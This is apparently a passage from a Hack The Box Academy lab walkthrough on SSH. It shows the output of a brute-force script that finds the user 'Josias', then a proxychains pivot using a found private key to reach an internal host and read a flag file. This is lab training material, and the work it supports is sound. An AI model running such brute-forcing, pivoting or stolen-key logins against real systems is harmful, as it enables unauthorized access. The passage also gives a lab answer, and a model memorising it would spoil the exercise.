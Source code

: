 ```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ bash ssh-brute.sh 
Trying user: Administrator
<SNIP>
Trying user: {hidden}
Login successful for user: {hidden}
```

Answer: `Josias`

# Secure Shell (SSH)

## Question 5

### "Read the flag located at the .ssh directory of the user account you accessed using the key:"

Students will reuse the previously established chain of connections (dynamic port-forwarding) and proceed to authenticate to `SRV02` (`172.20.0.52`) using the found private key and user:

Code: shell

```shell
proxychains ssh -i unknown_id_rsa Josias@172.20.0.52 -p 2299
```

```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ proxychains ssh -i unknown_id_rsa Josias@172.20.0.52 -p 2299

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.20.0.52:2299  ...  OK

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\josias@SRV02 C:\Users\Josias>
```

With obtained SSH session, students will proceed to query the contents of the `C:\Users\Josias\.ssh` directory and query the flag located within it:

Code: shell

```shell
dir C:\Users\Josias\.ssh 
type C:\Users\Josias\.ssh\flag.txt
```

```
inlanefreight\josias@SRV02 C:\Users\Josias>dir C:\Users\Josias\.ssh 
 Volume in drive C has no label.
 Volume Serial Number is 513B-584F

 Directory of C:\Users\Josias\.ssh

06/26/2024  01:32 PM    <DIR>          .
06/26/2024  01:32 PM    <DIR>          ..
06/26/2024  11:55 AM               408 authorized_keys 
06/26/2024  01:26 PM                25 flag.txt

inlanefreight\josias@SRV02 C:\Users\Josias>type C:\Users\Josias\.ssh\flag.txt
```
